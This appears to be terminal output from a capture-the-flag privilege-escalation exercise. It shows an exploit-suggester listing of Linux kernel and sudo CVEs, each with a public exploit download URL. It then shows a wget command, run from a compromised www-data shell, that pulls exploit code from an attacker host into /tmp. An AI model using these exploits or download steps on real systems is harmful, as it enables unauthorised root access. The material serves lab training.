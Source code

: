 ```bash
[+] [CVE-2022-0847] DirtyPipe

   Details: https://dirtypipe.cm4all.com/
   Exposure: probable
   Tags: ubuntu=(20.04|21.04),[ debian=11 ]
   Download URL: https://haxx.in/files/dirtypipez.c

[+] [CVE-2022-32250] nft_object UAF (NFT_MSG_NEWSET)

   Details: https://research.nccgroup.com/2022/09/01/settlers-of-netlink-exploiting-a-limited-uaf-in-nf_tables-cve-2022-32250/
https://blog.theori.io/research/CVE-2022-32250-linux-kernel-lpe-2022/
   Exposure: less probable
   Tags: ubuntu=(22.04){kernel:5.15.0-27-generic}
   Download URL: https://raw.githubusercontent.com/theori-io/CVE-2022-32250-exploit/main/exp.c
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2022-2586] nft_object UAF

   Details: https://www.openwall.com/lists/oss-security/2022/08/29/5
   Exposure: less probable
   Tags: ubuntu=(20.04){kernel:5.12.13}
   Download URL: https://www.openwall.com/lists/oss-security/2022/08/29/5/1
   Comments: kernel.unprivileged_userns_clone=1 required (to obtain CAP_NET_ADMIN)

[+] [CVE-2021-3156] sudo Baron Samedit

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: mint=19,ubuntu=18|20, debian=10
   Download URL: https://codeload.github.com/blasty/CVE-2021-3156/zip/main

[+] [CVE-2021-3156] sudo Baron Samedit 2

   Details: https://www.qualys.com/2021/01/26/cve-2021-3156/baron-samedit-heap-based-overflow-sudo.txt
   Exposure: less probable
   Tags: centos=6|7|8,ubuntu=14|16|17|18|19|20, debian=9|10
   Download URL: https://codeload.github.com/worawit/CVE-2021-3156/zip/main

[+] [CVE-2021-22555] Netfilter heap out-of-bounds write

   Details: https://google.github.io/security-research/pocs/linux/cve-2021-22555/writeup.html
   Exposure: less probable
   Tags: ubuntu=20.04{kernel:5.8.0-*}
   Download URL: https://raw.githubusercontent.com/google/security-research/master/pocs/linux/cve-2021-22555/exploit.c
   ext-url: https://raw.githubusercontent.com/bcoles/kernel-exploits/master/CVE-2021-22555/exploit.c
   Comments: ip_tables kernel module must be loaded

www-data@Breakme:/home/john$ wget http://10.10.146.120:8000/exploit-2.c -O /tmp/exploit-2.c
</10.10.146.120:8000/exploit-2.c -O /tmp/exploit-2.c
--2024-09-21 10:27:34--  http://10.10.146.120:8000/exploit-2.c
Connecting to 10.10.146.120:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 7752 (7.6K) [text/plain]
Saving to: \u2018/tmp/exploit-2.c\u2019

/tmp/exploit-2.c    100%[===================>]   7.57K  --.-KB/s    in 0s      

2024-09-21 10:27:34 (170 MB/s) - \u2018/tmp/exploit-2.c\u2019 saved [7752/7752]
```